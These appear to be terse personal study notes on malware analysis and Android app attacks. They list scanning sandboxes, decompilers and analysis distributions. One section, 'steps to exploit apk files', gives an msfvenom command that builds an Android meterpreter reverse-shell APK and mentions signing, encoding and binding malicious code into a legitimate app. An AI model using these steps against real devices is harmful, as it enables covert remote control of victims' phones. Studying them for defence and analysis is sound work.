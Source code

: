 virus total - site to check virus
https://www.virustotal.com/gui/home/upload

any run 
http://app.any.run

hybrid analysis 
https://www.hybrid-analysis.com/

temp mail generator -- https://temp-mail.org/en/


decompiling tool 
jadx-gui

steps to exploit apk files
1. to create apk file
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.232.128 LPORT-5009 > abc.apk
2. to sign jar
jarsigner 
3. encoding 
3. zipping


static code analysis 
Ghidra 
frida
strings

app binding - infect app and add malicious code 
 


 malware ananlys 

 Flare vm 
 REMnux
